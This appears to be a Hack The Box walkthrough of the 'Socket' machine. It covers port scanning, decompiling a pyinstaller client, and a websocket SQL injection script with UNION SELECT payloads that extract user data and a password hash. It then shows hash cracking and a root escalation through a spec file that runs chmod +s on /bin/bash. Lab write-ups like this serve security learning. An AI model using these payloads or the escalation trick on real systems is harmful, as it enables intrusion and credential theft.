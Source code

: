 ```yaml
---
title: "Hack The Box - Socket [Medium]"
date: 2023-04-21T10:42:27+03:00
draft: false
tags: ["hackthebox"]
---
```


So let's start with a rustscan of the machine

```bash
Open 10.10.11.206:22
Open 10.10.11.206:80
Open 10.10.11.206:5789
[~] Starting Script(s)
[~] Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-21 14:37 EEST
Initiating Ping Scan at 14:37
Scanning 10.10.11.206 [2 ports]
Completed Ping Scan at 14:37, 0.05s elapsed (1 total hosts)
Initiating Connect Scan at 14:37
Scanning qreader.htb (10.10.11.206) [3 ports]
Discovered open port 22/tcp on 10.10.11.206
Discovered open port 80/tcp on 10.10.11.206
Discovered open port 5789/tcp on 10.10.11.206
Completed Connect Scan at 14:37, 0.05s elapsed (3 total ports)
Nmap scan report for qreader.htb (10.10.11.206)
Host is up, received syn-ack (0.050s latency).
Scanned at 2023-04-21 14:37:19 EEST for 0s

PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack
80/tcp   open  http    syn-ack
5789/tcp open  unknown syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.12 seconds
```

I went to port 80 to check what is there, the idea of the website is to create QR Codes and extract text out of QR Codes, first I thought that maybe there is something with the QR codes but after some examination I decided to give up on that path and I went over the other things such as the Linux/Windows application.

Upon further discovery using `strings` over the linux binary, I realized that this a packaged exectuable that was created with `pyinstaller` so I've tried to unpack it with `uncompyle6` and then the `pyc` files with `pycdc`. 

I found out the following things from the source code of `qreader`:

```python
...
VERSION = '0.0.2'
ws_host = 'ws://ws.qreader.htb:5789'
...
def version(self):
        response = asyncio.run(ws_connect(ws_host + '/version', json.dumps({
            'version': VERSION })))
        data = json.loads(response)
        if 'error' not in data.keys():
            version_info = data['message']
            msg = f'''[INFO] You have version {version_info['version']} which was released on {version_info['released_date']}'''
            self.statusBar().showMessage(msg)
            return None
        error = None['error']
        self.statusBar().showMessage(error)

def update(self):
	response = asyncio.run(ws_connect(ws_host + '/update', json.dumps({
		'version': VERSION })))
	data = json.loads(response)
	if 'error' not in data.keys():
		msg = '[INFO] ' + data['message']
		self.statusBar().showMessage(msg)
		return None
	error = None['error']
	self.statusBar().showMessage(error)
```

This source code tries to connect to a websocket to get its version/update, so the paths for the websockets are:

```
ws://ws.qreader.htb:5789/update
ws://ws.qreader.htb:5789/version
```

I've tested both of these with `claws` tool. Then I crafted a python script to connect with the socket. 

> **_WARNING:_** Be really careful which quotes you are using, `'` or `"` because that could interfere with the SQLi that I found in the `version` path!

```python
from websockets.sync.client import connect
import json

with connect("ws://ws.qreader.htb:5789/version") as websocket:
    websocket.send(json.dumps({'version': '0.0.3" UNION SELECT group_concat(answer),2,3,4 from answers-- -'}))
    m = websocket.recv()
    print(m)
```

With this script, I've enumerated the tables, columns and the username with the following payloads:

```SQL
'0.0.3" UNION SELECT group_concat(answer),2,3,4 from answers-- -' -> This finds the user Thomas Keller
'0.0.3" UNION SELECT group_concat(password),2,3,4 from users-- -' -> This find the password hash
```

Cracking the password

```bash
$ hashcat -m 0 -a 0 0c090c365fa0559b151a43e0fea39710 ~/tools/rockyou.txt
<PASSWORD>
```

Getting the username with [adusergen](https://github.com/syrull/hacks/tree/main/adusergen)

```bash
$ echo -n "Thomas Keller" | adusergen

Thomas.Keller
ThomasKeller
KellerThomas
Keller.Thomas
Tkeller
T.keller
Thomas-Keller
T.keller
thomas.keller
thomaskeller
kellerthomas
keller.thomas
		tkeller <--- Right One
t.keller
thomas-keller
t.keller
```

# Root

The root was fairly easy, you just have to read the documentation for spec files for `pyinstaller`, after that I crafted the following spec file:

```python
block_cipher = __import__('os').system('chmod +s /bin/bash')
```

```bash
tkeller@socket:~$ sudo /usr/local/sbin/build-installer.sh build priv.spec
105 INFO: PyInstaller: 5.6.2
105 INFO: Python: 3.10.6
107 INFO: Platform: Linux-5.15.0-67-generic-x86_64-with-glibc2.35
110 INFO: UPX is not available.
script '/home/tkeller/minimal.py' not found
tkeller@socket:~$ /bin/bash -p
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt 
<HASH>
```

